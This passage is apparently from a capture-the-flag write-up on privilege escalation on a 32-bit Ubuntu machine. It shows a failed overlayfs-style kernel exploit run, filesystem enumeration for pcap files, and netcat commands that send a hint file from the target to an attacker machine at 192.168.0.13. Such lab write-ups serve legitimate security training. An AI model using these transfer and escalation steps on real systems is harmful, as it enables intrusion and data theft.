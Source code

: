  * I compiled the exploit on an other 32 bits virtual machine;
  * I transfered it to the shell via netcat;
  * And it failed:

    $ ./ofs.bin  : 4:
    spawning threads
    mount #1
    mount #2
    child threads done
    exploit failed

But we were given an hint.

### More investigations

The [pwnwiki.io](http://pwnwiki.io/#!privesc/linux/index.md) wiki is always a
good source of information. So with more investigation we look at bash_history,
search for `*txt*` files, an so on. Then `*pcap*` files:

    $ find / -name *pcap* 2>/dev/null
    /lib/modules/3.19.0-15-generic/kernel/drivers/rtc/rtc-pcap.ko
    /lib/modules/3.19.0-15-generic/kernel/drivers/input/misc/pcap_keys.ko
    /lib/modules/3.19.0-15-generic/kernel/drivers/input/touchscreen/pcap_ts.ko
    /lib/modules/3.19.0-15-generic/kernel/drivers/regulator/pcap-regulator.ko
    /sbin/raw_vs_isi/hint.pcapng
    /sbin/getpcaps
    /sys/bus/spi/drivers/ezx-pcap
    /usr/share/doc/libpcap0.8
    /usr/share/mime/application/vnd.tcpdump.pcap.xml
    /usr/share/man/man7/pcap-filter.7.gz
    /usr/share/man/man1/getpcaps.1.gz
    /usr/lib/i386-linux-gnu/libpcap.so.1.6.2
    /usr/lib/i386-linux-gnu/libpcap.so.0.8
    /usr/src/linux-headers-3.19.0-15/include/linux/mfd/ezx-pcap.h
    /usr/src/linux-headers-3.19.0-15-generic/include/config/ezx/pcap.h
    /usr/src/linux-headers-3.19.0-15-generic/include/config/touchscreen/pcap.h
    /usr/src/linux-headers-3.19.0-15-generic/include/config/rtc/drv/pcap.h
    /usr/src/linux-headers-3.19.0-15-generic/include/config/input/pcap.h
    /usr/src/linux-headers-3.19.0-15-generic/include/config/regulator/pcap.h
    /var/lib/dpkg/info/libpcap0.8:i386.postinst
    /var/lib/dpkg/info/libpcap0.8:i386.shlibs
    /var/lib/dpkg/info/libpcap0.8:i386.postrm
    /var/lib/dpkg/info/libpcap0.8:i386.md5sums
    /var/lib/dpkg/info/libpcap0.8:i386.symbols
    /var/lib/dpkg/info/libpcap0.8:i386.list

Yes `/sbin/raw_vs_isi/hint.pcapng`!

### pcap

We transfer the file with netcat:

  * On our attack machine: `nc -lp 1234 > pcap`
  * On the server: `nc 192.168.0.13 1234 < /sbin/raw_vs_isi/hint.pcapng`
